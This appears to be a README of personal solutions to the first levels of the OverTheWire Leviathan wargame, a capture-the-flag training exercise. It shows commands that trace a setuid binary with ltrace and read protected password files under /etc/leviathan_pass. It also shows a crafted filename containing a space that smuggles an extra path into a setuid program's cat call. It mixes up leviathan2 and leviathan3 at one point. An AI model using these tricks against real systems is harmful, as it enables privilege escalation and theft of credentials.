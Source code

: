 # Leviathan

Visit the [website][1].

Server details:
```
url:   leviathan.labs.overthewire.org
port:  2223
user:  leviathan<level>
```

For convenience use
```bash
./connect.sh <level>
```

### Storing solutions

Once you have a password add it to a `passwords` file in the form `<level> <password`. When you run the `./connect.sh`
script it will print the password for the level if it exists so you can easily copy and paste it.  
For example
```
0 leviathan0
1 1234567890abcdef
2 fedcba0987654321
```

In the case where you get the private key for a level store it in a file named `leviathan<level>_key` e.g. if you have found
the key for `leviathan24` store it in the file `leviathan24_key`. This key will be used automatically when running the
`./connect.sh` script for that level (e.g. `./connect.sh 24`).

The starting password for level `0` is `leviathan0`.

### Levels

There are no instructions for any levels though pages do exist for them
```
https://overthewire.org/wargames/leviathan/leviathan<level>.html
```

##### 0

`grep password ./backups/bookmarks.html`

##### 1

```bash
# we have a setuid check program locally
# check what's being called when check runs
ltrace ./check
# it wants a password which it does a strcmp against so we can just use the string it's comparing against then
# it opens a new shell and we can
cat /etc/leviathan_pass/leviathan_2
```

##### 2

We have a `printfile` executable which is `setuid`. If we try something like `ltrace ./printfile .profile` we see
that we first check if the file is readable before passing it to `cat` like `cat %s`. We can take advantage of the
filename being passed in as is and the fact that it won't correctly intpret strings in the filename!

```bash
mkdir /tmp/andrewflbarnes2
cd /tmp/andrewflbarnes2

touch test
mkdir -p 'test /etc/leviathan_pass/'
touch 'test /etc/leviathan_pass/leviathan2'

~/printfile 'test /etc/leviathan_pass/leviathan2'
```

When we run the final comman the `printfile` program checks if the full string is a readable file - it treats
"`test `" as a directory rather than a file followed by a space.

However when it is passed to the cat command it treats the space as if it is separating two files - so we end
up catting the local `test` file and the actual file we want - `/etc/leviathan_pass/leviathan3` :)

[1]: <https://overthewire.org/wargames/leviathan/> "Leviathan wargames landing page"
